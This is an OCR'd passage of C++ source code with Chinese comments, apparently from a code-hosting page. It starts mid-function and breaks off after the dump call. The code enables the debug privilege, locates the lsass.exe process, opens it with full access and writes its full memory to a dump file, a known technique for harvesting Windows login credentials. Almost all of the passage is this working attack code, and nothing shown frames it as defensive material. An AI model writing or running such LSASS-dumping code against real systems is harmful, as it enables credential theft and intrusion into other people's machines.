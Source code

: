         if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))  
        {  
            return   FALSE;  
        }  
        if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &sedebugnameValue)) //修改进程权限  
        {  
            CloseHandle(hToken);  
            return false;  
        }  
        tkp.PrivilegeCount = 1;  
        tkp.Privileges[0].Luid = sedebugnameValue;  
        tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;  
        if (!AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL)) //通知系统修改进程权限  
        {  
            CloseHandle(hToken);  
            return false;  
        }  
        return true;  
    }  
      
    int main() {  
        char filename[INFO_BUFFER_SIZE];  
        char infoBuf[INFO_BUFFER_SIZE];  
        DWORD  bufCharCount = INFO_BUFFER_SIZE;  
        GetComputerNameA(infoBuf, &bufCharCount);  
        strcpy_s(filename, infoBuf);  
        strcat_s(filename, "-");  
        strcat_s(filename, "lsass.dmp");  
      
        DWORD lsassPID = 0;  
        HANDLE lsassHandle = NULL;  
        HANDLE outFile = CreateFileA(filename, GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);  
        HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);  
        PROCESSENTRY32 processEntry = {};  // 拍摄快照时驻留在系统地址空间里的进程列表结构体  
        processEntry.dwSize = sizeof(PROCESSENTRY32);   //结构大小  
        LPCWSTR processName = L"";  //进程名  
      
        if (Process32First(snapshot, &processEntry)) {  //检索快照中第一个进程的信息  
            while (_wcsicmp(processName, L"lsass.exe") != 0) {  //循环检索快照中的进程  
                Process32Next(snapshot, &processEntry);  
                processName = processEntry.szExeFile;   // 获取当前进程的进程名  
                lsassPID = processEntry.th32ProcessID;  
            }  
            wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;  
        }  
      
        if (EnableDebugPrivilege() == false)  
        {  
            printf("enable %d", GetLastError());  
        }  
        EnableDebugPrivilege();  
        lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID); // 根据 Pid 打开 lsass.exe 进程，获取句柄  
        BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL); //转储lsass，写入outfile  
      